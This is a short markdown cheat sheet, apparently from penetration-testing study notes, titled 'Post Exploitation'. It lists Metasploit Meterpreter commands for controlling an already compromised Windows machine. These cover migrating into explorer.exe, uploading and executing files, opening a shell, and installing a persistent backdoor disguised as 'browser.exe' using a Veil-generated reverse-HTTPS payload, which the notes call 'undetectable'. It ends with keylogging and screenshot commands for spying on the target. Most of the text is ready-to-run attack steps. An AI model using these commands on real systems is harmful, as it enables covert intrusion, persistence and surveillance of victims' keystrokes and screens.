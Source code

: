 # Post Exploitation

* Assuming that one already has access to the target computer through Metasploit, we can run multiple commands on Meterpreter:

```shell
#inside meterpreter session currently

help #shows help manual

background #backgrounds current session

sessions -l #lists all current sessions

sessions -i 4 #to interact with particular session

sysinfo #shows info about target computer

ipconfig #shows all interfaces connected to target computer

ps #shows all running processes

migrate 4376 #migrates meterpreter from current PID (backdoor) to new PID (e.g. - explorer.exe)

pwd #get current working directory

ls #list all files and directories

#cd can be used to switch directories

cat test.txt #read contents of file

download test.txt #download file

upload car-image.exe #upload file

execute -f car-image.exe #execute file

shell #opens Windows Shell to run Windows commands
```

* Using metasploit and veil-evasion together is proven to be more robust and undetectable:

```shell
#inside metasploit currently

use exploit/windows/local/persistence #to use persistence module

show options

set EXE_NAME browser.exe

set SESSION 4

show advanced #advanced options

set EXE::Custom /var/www/html/evil-files/rev_https_8080.exe

exploit

#the resource file given can be used to clean up, if you do not want to run the backdoor file anymore

sessions -K #kills all sessions

use exploit/multi/handler #listen for incoming connections

show options

exploit #this will work now even if target computer is restarted, because the backdoor has been injected into it
```

* Spying on target computer:

```shell
#inside meterpreter session currently

keyscan_start #start module to capture keystrokes

keyscan_dump #shows log of keystrokes

keyscan_stop #stop sniffer

screenshot #takes a snap
```
